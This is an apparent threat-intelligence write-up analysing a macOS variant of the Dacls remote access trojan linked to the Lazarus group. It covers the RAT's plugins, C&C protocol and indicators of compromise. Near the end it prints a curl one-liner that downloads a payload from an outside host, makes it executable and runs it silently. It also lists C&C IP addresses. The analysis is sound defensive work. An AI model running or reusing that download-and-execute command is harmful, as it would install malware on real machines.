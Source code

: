  The config file location and name are stored in hex format within the code. The name of the config file pretends to be a database file related to the Apple Store: “Library/Caches/Com.apple.appstore.db”    The “IntializeConfiguration” function initializes the config file with the following hardcoded C&C servers.     The config file is constantly updated by receiving commands from the C&C server. The application name after installation is “mina”. Mina comes from the MinaOTP application which is a two-factor authentication app for macOS.    Main Loop After initializing the config file, the main loop is executed to perform the following four main commands:  Upload C&C server information from the config file to the server (0x601)Download the config file contents from the server and update the config file (0x602)Upload collected information from the victim’s machine by calling “getbasicinfo” function (0x700)Send heartbeat information (0x900) The command codes are exactly the same as Linux.dacls.     Plugins This Mac RAT has all the six plugins seen in the Linux variant with an additional plugin named “SOCKS”.  This new plugin is used to proxy network traffic from the victim to the C&C server. The app loads all the seven plugins at the start of the main loop. Each plugin has its own configuration section in the config file which will be loaded at the initialization of the plugin.     CMD plugin The cmd plugin is similar to the “bash” plugin in the Linux rat which  receives and executes commands by providing a reverse shell to the C&C server.     File Plugin The file plugin has the capability to read, delete, download, and search files within a directory. The only difference between the Mac and Linux version is that the Mac version does not have the capability to write files (Case 0).     Process plugin The process plugin has the capability of killing, running, getting process ID and collecting process information.     If the “/proc/%d/task” directory of a process is accessible, the plugin obtains the following information from the process where %d is the process ID: Command line arguments of the process by executing “/proc/ %/cmdline” Name, Uid, Gid, PPid of the process from the “/proc/%d/status” file.  Test plugin The code for the Test plugin between Mac and Linux variant is the same. It checks the connection to an IP and Port specified by the C&C servers. RP2P plugin The RP2P plugin is a proxy server used to avoid direct communications from the victim to the actor’s infrastructure.     LogSend plugin The Logsend plugin contains three modules that:  Check connection to the Log serverScan network (worm scanner module)Execute long run system commands    This plugin sends the collected logs using HTTP post requests.     An interesting function in this plugin is the worm scanner. The “start_worm_scan” can scan a network subnet on ports 8291 or 8292. The subnet that gets scanned is determined based on a set of predefined rules. The following diagram shows the process of selecting the subnet to scan.     Socks plugin The Socks plugin is the new, seventh plugin added to this Mac Rat. It is similar to the RP2P plugin and acts as an intermediary to direct the traffic between bot and C&C infrastructure. It uses Socks4 for its proxy communications.     Network Communications C&C communication used by This Mac RAT is similar to the Linux variant. To connect to the server, the application first establishes a TLS connection and then performs beaconing and finally encrypts the data sent over SSL using the RC4 algorithm.       Both Mac and Linux variants use the WolfSSL library for SSL communications. WolfSSL is an open-source implementation of TLS in C that supports multiple platforms. This library has been used by several threat actors. For example, Tropic Trooper used this library in its Keyboys malware.    The command codes used for beaconing are the same as the codes used in Linux.dacls.  This is to confirm the identity of the bot and the server.    The RC4 key is generated by using a hard-coded key.     Variants and detection We also identified another variant of this RAT which downloads the malicious payload using the following curl command:  curl -k -o ~/Library/.mina https://loneeaglerecords.com/wp-content/uploads/2020/01/images.tgz.001 > /dev/null 2>&1 && chmod +x ~/Library/.mina > /dev/null 2>&1 && ~/Library/.mina > /dev We believe this Mac variant of the Dcals RAT is associated with the Lazarus group, also known as Hidden Cobra and APT 38, an infamous North Korean threat actor performing cyber espionage and cyber-crime operations since 2009.  The group is known to be one of the most sophisticated actors, capable of making custom malware to target different platforms. The discovery of this Mac RAT shows that this APT group is constantly developing its malware toolset. Malwarebytes for Mac detects this remote administration Trojan as OSX-DaclsRAT.       IOCs 899e66ede95686a06394f707dd09b7c29af68f95d22136f0a023bfd01390ad53 846d8647d27a0d729df40b13a644f3bffdc95f6d0e600f2195c85628d59f1dc6 216a83e54cac48a75b7e071d0262d98739c840fd8cd6d0b48a9c166b69acd57d d3235a29d254d0b73ff8b5445c962cd3b841f487469d60a02819c0eb347111dd d3235a29d254d0b73ff8b5445c962cd3b841f487469d60a02819c0eb347111dd loneeaglerecords[.]com/wp-content/uploads/2020/01/images.tgz.001  67.43.239.146 185.62.58.207 50.87.144.227